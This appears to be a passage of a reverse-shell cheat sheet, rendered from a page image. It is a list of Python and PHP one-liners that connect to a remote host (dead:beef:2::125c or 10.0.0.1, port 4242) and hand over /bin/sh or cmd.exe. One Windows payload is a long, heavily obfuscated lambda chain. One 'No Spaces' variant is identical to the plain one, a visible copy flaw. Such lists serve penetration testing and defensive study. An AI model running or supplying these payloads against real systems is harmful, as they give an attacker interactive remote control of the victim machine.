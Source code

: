 ```
```
#### IPv6
```
python -c 'socket=__import__("socket"); os=__import__("os"); pty=__import__("pty"); s=socket.socket(socket.AF_INET6, socket.SOCK_STREAM); s.connect(("dead:beef:2::125c", 4242, 0, 2)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh")'
```
#### IPv6 | No Spaces
```
python -c 'socket=__import__("socket"); os=__import__("os"); pty=__import__("pty"); s=socket.socket(socket.AF_INET6, socket.SOCK_STREAM); s.connect(("dead:beef:2::125c", 4242, 0, 2)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh")'
```
#### IPv6 | No Spaces, Shortened
```
python -c 'a=__import__; c=a("socket"); o=a("os").dup2; p=a("pty").spawn; s=c.socket(c.AF_INET6, c.SOCK_STREAM); s.connect(("dead:beef:2::125c", 4242, 0, 2)); f=s.fileno; o(f(), 0); o(f(), 1); o(f(), 2); p("/bin/sh")'
```
#### Microsoft Windows | Python
```
python -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

## PHP
```
php -r '$sock = fsockopen("10.0.0.1", 4242); exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock = fsockopen("10.0.0.1", 4242); shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock = fsockopen("10.0.0.1", 4242); `/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock = fsockopen("10.0.0.1", 4242); system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock = fsockopen("10.0.0.1", 4242); passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock = fsockopen("10.0.0.1", 4242); popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```
